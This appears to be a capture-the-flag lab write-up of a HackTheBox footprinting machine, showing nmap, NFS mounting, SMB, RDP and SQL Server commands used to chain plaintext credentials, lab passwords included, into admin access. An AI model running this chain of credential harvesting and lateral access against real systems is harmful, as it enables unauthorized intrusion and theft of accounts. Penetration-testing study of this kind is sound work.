



# 🏴️ Footprinting Tests - Medium

> **Difficulty:** Medium | **OS:** Windows | **Platform:** CPTS — Footprinting Study

!!! info "About this page"
    Writeup of the footprinting lab (medium machine) from HackTheBox. Focus on
    enumerating **NFS**, **SMB**, **RDP**, and **SQL Server**, chaining credentials
    exposed in shared files until obtaining the `HTB` user's credentials.

!!! note "About the IPs"
    Since this is a lab, the target was reset a few times during the study, so
    the IP changes between output blocks (`10.129.40.142`, `10.129.202.41`,
    `10.129.58.110`). All outputs were kept exactly as they appeared in the
    terminal.

---

## 📋 General Information

| Field | Value |
|:------|:------|
| **Hostname** | Internal server (Windows) |
| **IP** | `10.129.40.142` |
| **OS** | Windows |
| **Difficulty** | Medium |
| **Platform / Module** | CPTS — Footprinting |
| **Internal domain** | `web.dev.inlanefreight.htb` |
| **Date** | 23/06/2026 |
| **Status** | Finished |

!!! abstract "Objective"
    Server with internal network access. The goal is to discover as much
    information as possible and find ways to exploit it. The client created a
    `HTB` user as proof of access — we need to obtain their credentials.

---

## 🔍 Initial Enumeration

### Ports and Services Found

| Port | Service | Version / Banner |
|:------|:--------|:----------------|
| 111 | rpcbind | RPC portmapper |
| 135 | msrpc | Microsoft RPC |
| 139 | netbios-ssn | NetBIOS Session |
| 445 | microsoft-ds | SMB |
| 2049 | nfs | Network File System |
| 3389 | ms-wbt-server | RDP |
| 5985 | wsman | WinRM |

### Enumeration Command

```bash
sudo nmap -sS -Pn -n --disable-arp-ping -D RND:5 10.129.40.142
```

### Relevant Output (evidence)

```shell
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Findings

- [x] **Windows** system with multiple services: RPC, NetBIOS, SMB, RDP, and WinRM
- [x] **NFS (2049)** open — unusual on Windows and the main target of the initial investigation
- [x] **RDP (3389)** and **WinRM (5985)** available → potential interactive access vectors

---

## 🎯 Techniques Used

| # | Technique | Where / How it was applied |
|:--|:--------|:-------------------------|
| 1 | NFS enumeration | `showmount` + nmap `nfs*` scripts → `/TechSupport` share |
| 2 | Credential harvesting from files | NFS ticket reveals SMTP config with `alex`'s password |
| 3 | Authenticated SMB enumeration | Login as `alex` → `devshare` share → `important.txt` with `sa`'s creds |
| 4 | Remote access via RDP | `xfreerdp` as `alex` → server desktop |
| 5 | Administrative access to SQL Server | Login as `sa` in SSMS via RDP |
| 6 | Credential exfiltration from database | `dbo.devsacc` table → `HTB` user's password |

---

## 🚀 Exploitation / Initial Access

### Entry Vector

| Field | Value |
|:------|:------|
| **Vector** | NFS `/TechSupport` → chained credentials (SMB → RDP → SQL Server) |
| **Flaw exploited** | NFS share open to `everyone` with plaintext credentials |
| **Tools** | nmap, showmount, mount, smbclient, xfreerdp, SQL Server Management Studio |
| **Access obtained as** | `alex` (RDP) → `sa` (SQL Server) |

### Process

```
1. Enumerate NFS → /TechSupport share open to everyone
2. Mount /TechSupport and read the tickets → SMTP config with alex's password
3. Log into SMB as alex → devshare share → important.txt with sa's creds
4. RDP as alex → open SQL Server Management Studio
5. Connect to SQL Server as sa → explore databases
6. Read dbo.devsacc table → HTB user's credentials
```

---

### Stage 1 — NFS (port 2049): share enumeration

```bash
showmount -e 10.129.202.41
```

```shell
Export list for 10.129.202.41:
/TechSupport (everyone)
```

Detailed investigation with nmap's NFS scripts:

```bash
nmap -sV -p 111,2049 --script nfs* 10.129.202.41 -d
```

```shell
PORT     STATE SERVICE  REASON  VERSION
111/tcp  open  rpcbind  syn-ack 2-4 (RPC #100000)
| nfs-statfs:
|   Filesystem    1K-blocks   Used        Available   Use%  Maxfilesize  Maxlink
|_  /TechSupport  25468924.0  15095364.0  10373560.0  60%   16.0T        1023
| nfs-ls: Volume /TechSupport
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID         GID         SIZE   TIME                 FILENAME
| rwx------   4294967294  4294967294  65536  2021-11-11T00:09:49  .
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283649.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283650.txt
| ...                                                             (several empty tickets)
| nfs-showmount:
|_  /TechSupport
2049/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)
```

!!! tip "Finding"
    `/TechSupport` share exposed to **everyone** (read-only). Most of the
    `ticket*.txt` files are 0 bytes, but **one** of them has content.

### Stage 2 — Reading the ticket: `alex`'s credentials

I mounted the share and read the ticket with content:

```bash
sudo mount -t nfs 10.129.202.41:/TechSupport /mnt/TechSupport
sudo cat /mnt/TechSupport/ticket4238791283782.txt
```

```text
Conversation with InlaneFreight Ltd
...
01:42 PM | alex: here it is:

 1 smtp {
 2     host=smtp.web.dev.inlanefreight.htb
 3     #port=25
 4     ssl=true
 5     user="alex"
 6     password="lol123!mD"
 7     from="alex.g@web.dev.inlanefreight.htb"
 8 }
```

!!! success "Credentials obtained (NFS → ticket)"
    - **User:** `alex`
    - **Password:** `lol123!mD`
    - **Email:** `alex.g@web.dev.inlanefreight.htb`

### Stage 3 — SMB (port 445): `sa`'s credentials

With `alex`'s password, I enumerated the SMB shares:

```bash
smbclient -L //10.129.202.41 -U alex
```



Shares discovered: `ADMIN$`, `C$`, **`devshare`** ⭐, `IPC$`, `Users`.
Inside `devshare`, the file `important.txt`:

```text
sa:87N1ns@slls83
```

!!! success "Credentials obtained (SMB → devshare)"
    - **User:** `sa` (SQL Server Admin)
    - **Password:** `87N1ns@slls83`

### Stage 4 — RDP (port 3389): desktop access as `alex`

```bash
xfreerdp /v:10.129.58.110 /u:alex /p:'lol123!mD' /cert:ignore
```



✅ Successful access to the remote desktop. From there, I opened **SQL Server
Management Studio**.

### Stage 5 — SQL Server: access as `sa`

In SSMS, I connected using the `sa` credentials obtained via SMB:


!!! warning "Attempt that did NOT work"
    Logging directly into the database from Linux with the credentials did not
    succeed. The path that worked was **opening SSMS via RDP** and connecting
    as `sa` from there, on the server itself.

---

## 🐚 Shell and Post-Access

Access obtained as `alex` via RDP, and then as administrator (`sa`) within SQL
Server Management Studio.

### Exploring the database → `HTB`'s credentials

Exploring the databases and tables, I located the `dbo.devsacc` table:



```text
user: HTB
password: lnch7ehrdn43i7AoqVPK4zWR
```

!!! success "Objective achieved (dbo.devsacc table)"
    - **User:** `HTB`
    - **Password:** `lnch7ehrdn43i7AoqVPK4zWR`

### Credential chain

| Level | User | Password | Source | Method |
|:------|:--------|:------|:------|:-------|
| 1st | `alex` | `lol123!mD` | NFS (ticket) | RDP |
| 2nd | `sa` | `87N1ns@slls83` | SMB (`devshare`) | SQL Server |
| 3rd ✅ | `HTB` | `lnch7ehrdn43i7AoqVPK4zWR` | SQL DB (`dbo.devsacc`) | — |

---

## 🚩 Flags

- [x] `HTB` user's credentials captured

| Credential | Location |
|:-----------|:------|
| `HTB:lnch7ehrdn43i7AoqVPK4zWR` | `dbo.devsacc` table (SQL Server) |

---

## 📖 Technical Summary

| Field | Value |
|:------|:------|
| **Root cause** | NFS share open to `everyone` with plaintext credentials |
| **Attack chain** | NFS `/TechSupport` → `alex` creds → SMB `devshare` → `sa` creds → RDP → SQL Server → `dbo.devsacc` → `HTB` creds |
| **Final access** | `sa` (SQL Server admin) + `HTB`'s credentials |

---

## 💡 Lessons Learned

- **What worked:** chaining credentials exposed in files — a small exposure on
  NFS opened up SMB, RDP, and SQL Server in sequence.
- **What slowed things down:** trying to connect to SQL Server directly from
  Linux; the working path was using SSMS **through RDP**, on the server itself.
- **Commands to review later:** NFS enumeration (`showmount -e`, nmap `nfs*`
  scripts, `mount -t nfs`).
- **Techniques to study further:** NFS is frequently overlooked — even
  read-only, a misconfigured file with credentials is disastrous. Never store
  passwords in plaintext (configs, tickets, shares, database tables).
